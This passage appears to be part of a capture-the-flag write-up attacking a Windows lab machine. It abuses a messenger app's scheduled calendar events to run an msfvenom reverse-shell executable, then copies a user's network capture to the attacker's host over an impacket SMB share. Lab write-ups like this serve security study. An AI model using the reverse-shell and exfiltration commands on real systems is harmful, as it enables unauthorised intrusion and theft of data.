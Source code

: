 ```bash
```

With the password for the user `O.martinez`, we can now login to the application one more time with our new user.

![NON](file-20250605222549388.png)

Looking at the Chat, we can see that he is complaining about random website pop-ups on his computer every day at 09:00 AM, Looking at his calendar we see a recurring event to open a website every day at 09:00 AM, which is the same time he is complaining about the pop-ups.

Looking at the calendar, we can see that we can run applications at specific time, so we crafted a reverse shell payload to run at a specific time, which will give us a reverse shell to the target machine.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f exe -o rev.exe
```

Sending to the machine we can set the event and wait for the connection
![NON](file-20250606010407650.png)

![NON](file-20250606010310493.png)

Looking at the `Received Files` folder from the `o.martinez`, we can see that he have a `network_capture_2024.pcapng` file, which is a network capture file that we can analyze to gather more information about the network traffic.

```bash
PS C:\Users\O.martinez\AppData\Roaming\Output Messenger\FAAA\Received Files> gci -force -file -recurse
gci -force -file -recurse


    Directory: C:\Users\O.martinez\AppData\Roaming\Output Messenger\FAAA\Received Files\203301


Mode                LastWriteTime         Length Name                                     
----                -------------         ------ ----                                     
-a----        2/23/2024   4:10 PM         292244 network_capture_2024.pcapng              

```

To send the file to our host machine, we can use the `smbserver.py` tool from `impacket`, which allows us to share a directory over SMB and then copy the file to our host machine.

```bash
# On Linux
smbserver.py -smb2support shares $(pwd) -username railoca -password railoca
# On windows
net use x: \\10.10.14.24\shares "railoca" /user:railoca
copy .\network_capture_2024.pcapng x:\network_capture_2024.pcapng
```

Upon opening the `pcapng` file in `Wireshark`, we can see that there are some interesting packets, such as `DNS` requests and `HTTP` requests. Filtering for `HTTP` requests, we can see that there are some requests to a `Bitlocker-backup.7z` file. We can download this file and try to extract it to see if we can find any interesting information.
